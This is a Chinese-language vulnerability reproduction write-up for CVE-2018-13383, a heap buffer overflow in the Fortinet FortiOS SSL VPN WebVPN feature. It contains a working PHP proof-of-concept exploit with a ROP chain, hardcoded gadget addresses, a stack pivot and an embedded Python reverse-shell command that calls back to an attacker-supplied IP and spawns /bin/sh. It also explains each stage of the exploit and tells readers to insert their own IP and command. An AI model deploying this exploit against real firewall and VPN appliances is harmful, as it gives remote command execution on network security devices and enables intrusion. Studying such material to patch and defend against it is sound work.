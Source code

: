 ```yaml
---
title: "（CVE-2018-13383）Fortinet FortiOS 缓冲区错误漏洞"
id: zhfly2949
---
```


# （CVE-2018-13383）Fortinet FortiOS 缓冲区错误漏洞

## 一、漏洞简介

Fortinet FortiOS是美国飞塔（Fortinet）公司的一套专用于FortiGate网络安全平台上的安全操作系统。该系统为用户提供防火墙、防病毒、IPSec/SSLVPN、Web内容过滤和反垃圾邮件等多种安全功能。 Fortinet FortiOS 6.2.0之前版本中存在堆缓冲区溢出漏洞。该漏洞源于网络系统或产品在内存上执行操作时，未正确验证数据边界，导致向关联的其他内存位置上执行了错误的读写操作。攻击者可利用该漏洞导致缓冲区溢出或堆溢出等。

## 二、漏洞影响

Fortinet Fortios 6.2 Fortinet Fortios 6.0.5

## 三、复现过程

这是WebVPN功能的漏洞。在解析HTML中的JavaScript时，它会尝试使用以下代码将内容复制到缓冲区中：

```
memcpy(buffer, js_buf, js_buf_len); 
```

缓冲区大小固定为`0x2000`，但输入字符串是无限制的。因此，这里存在堆溢出。值得注意的是，此漏洞可以溢出Null字节，这在我们的利用中很有用。
为触发此溢出，我们需要将exploit放到HTTP服务器上，然后以普通用户权限登录SSL VPN代理访问我们的exploit为普通用户。

> 这里我们用PHP编写的PoC放在HTTP服务器上:
> 
> //请自行修改里面的ip以及所需要的执行的命令

```
<?php
function p64($address) {
    $low = $address & 0xffffffff;
    $high = $address >> 32 & 0xffffffff;
    return pack("II", $low, $high);
}
$junk = 0x4141414141414141;
$nop_func = 0x32FC078;

$gadget  = p64($junk);

$gadget .= p64($nop_func - 0x60);

$gadget .= p64($junk);

$gadget .= p64(0x110FA1A); // # start here # pop r13 ; pop r14 ; pop rbp ; ret ;

$gadget .= p64($junk);

$gadget .= p64($junk);

$gadget .= p64(0x110fa15); // push rbx ; or byte [rbx+0x41], bl ; pop rsp ; pop r13 ; pop r14 ; pop rbp ; ret ;

$gadget .= p64(0x1bed1f6); // pop rax ; ret ;

$gadget .= p64(0x58);

$gadget .= p64(0x04410f6); // add rdi, rax ; mov eax, dword [rdi] ; ret  ;

$gadget .= p64(0x1366639); // call system ;

$gadget .= “python -c ‘import socket,sys,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((sys.argv[1],12345));[os.dup2(s.fileno(),x) for x in range(3)];os.system(sys.argv[2]);’ xx.xxx.xx.xx /bin/sh;”; `$p  = str_repeat(‘AAAAAAAA’, 1024+512-4); // offset

$p .= $gadget;

$p .= str_repeat(‘A’, 0x1000 - strlen($gadget));

$p .= $gadget;

?>

<a href=“javascript:void(0);<?=$p;?>”>xxx</a>` 
```

这个PoC可以分为三个部分。

*   1.虚假的SSL structure

`SSL structure`和我们的缓冲区相靠，因此我们可以精确伪造。为了避免崩溃，我们将`method`设置为一个包含空函数指针的位置。此时的参数是 `SSL structure`本身`s`。但是，`method`前面只有8个字节，我们不能简单地调用`system("/bin/sh");`，这对于我们的反向shell来说是不够的。不过由于那个巨大的二进制文件，我们很容易找到ROP小片段。我们发现一个有用的堆栈枢轴:

```
push rbx ; or byte [rbx+0x41], bl ; pop rsp ; pop r13 ; pop r14 ; pop rbp ; ret ; 
```

因此，我们将`handshake_func`设置为这个小片段，将`rsp`移动到`SSL structure`中，进行下一步的ROP攻击。

*   2.ROP链

这里的ROP链很简单。我们稍微向前移动`rdi`，以便有足够的空间执行反向shell命令。

*   3.溢出的字符串

最后，我们连接溢出填充并加以利用。一旦我们溢出了SSL structure，就会得到一个shell。

最终稳定利用还需要多次尝试，因为有时程序会提前崩溃。但无论如何，攻击还是奏效了，只需要1~2分钟，就可以获得一个反向shell。